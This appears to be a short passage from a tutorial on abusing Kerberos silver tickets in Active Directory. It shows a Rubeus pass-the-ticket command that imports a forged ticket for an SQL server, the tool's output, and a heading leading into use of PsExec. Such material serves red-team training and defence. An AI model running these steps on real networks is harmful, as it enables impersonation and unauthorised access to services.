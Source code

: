 ## Import the Ticket in the New cmd.exe Process 



	C:\Tools>.\Rubeus.exe ptt /ticket:sql01.kirbi

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v2.2.2


	[*] Action: Import Ticket
	[+] Ticket successfully imported!


![Import Ticket](/Ticket-Abuse/Silver-Tickets/images/Import-Ticket.png) 



## Using the New cmd.exe with PsExec 

